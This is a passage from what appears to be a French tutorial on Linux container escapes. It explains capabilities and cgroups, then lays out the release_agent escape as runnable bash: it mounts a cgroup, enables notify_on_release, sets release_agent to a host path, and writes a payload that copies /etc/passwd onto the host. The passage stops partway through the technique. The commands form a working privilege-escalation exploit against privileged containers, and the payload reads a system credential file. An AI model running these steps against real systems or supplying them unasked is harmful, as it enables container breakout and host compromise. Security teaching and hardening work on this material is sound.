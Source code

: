 Diagramme hiérarchique des cgroups Linux gérant les ressources mémoire, I/O disque, et CPU à travers les groupes et processus

Les **capabilities** Linux divisent les privilèges root traditionnels en unités distinctes contrôlables indépendamment. Les capabilities critiques incluent CAP\_SYS\_ADMIN (administration système), CAP\_SYS\_PTRACE (débogage de processus), CAP\_SYS\_MODULE (chargement de modules noyau) et CAP\_NET\_ADMIN (configuration réseau).

> **Limitations pratiques**
> 
> * Beaucoup d’exploits nécessitent un conteneur *privilégié* ou des capabilities élevées (CAP\_SYS\_ADMIN, CAP\_SYS\_MODULE, etc.).
>     
> * Certaines techniques (release\_agent, chargement de modules) deviennent difficiles ou impossibles sur des hôtes durcis (kernel récent, modules désactivés, mounts restreints).
>     
> * Nous supposons ici un conteneur compromis ou un utilisateur disposant d’un shell dans le conteneur.
>     

## Technique #1 : Exploitation des User-Mode Helpers

### Mécanisme Release Agent : L'Évasion Classique

La technique d'évasion via **release\_agent** demeure l'une des plus efficaces contre les conteneurs privilégiés. Elle exploite la fonction noyau `call_usermodehelper` qui permet au noyau d'exécuter des programmes en mode utilisateur avec des privilèges root complets.

Le processus d'exploitation suit une séquence précise :

1. **Création et montage d'un cgroup personnalisé** :
    

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

2. **Activation du mécanisme notify\_on\_release** :
    

```bash
echo 1 > /tmp/cgrp/x/notify_on_release
```

3. **Configuration du release\_agent malveillant** :
    

```bash
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

4. **Création du payload d'évasion** :
    

```bash
echo '#!/bin/sh' > /cmd
echo "cat /etc/passwd > $host_path/output" >> /cmd
chmod a+x /cmd
```
